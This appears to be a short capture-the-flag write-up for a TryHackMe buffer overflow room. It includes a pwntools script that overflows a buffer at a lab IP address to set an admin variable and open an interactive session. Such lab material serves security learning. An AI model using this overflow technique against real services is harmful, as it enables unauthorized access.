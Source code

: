 ## A bunch of Buffer/Stack Overflows
[oxb0b walkthrough](https://0xb0b.gitbook.io/writeups/tryhackme/2024/trypwnme-one)
**Ghidra**

Disassemble we see the get() function that is usaually overflowable, we see the admin varible(cross-referenced with the code sample in the room) is set to 0, but we need to set it to 1.

```python
from pwn import *
# Target IP and port
target_ip = '10.10.23.250'
target_port = 9003

# Connect to the remote server
p = remote(target_ip, target_port)

# Craft the payload
padding = b'A' * 16   # 16 bytes to fill the buffer
admin_value = p32(1) * 32  

payload = padding + admin_value 

# Send the payload
p.sendline(payload)

# Interact with the program to see the result (e.g., flag output)
p.interactive()
```
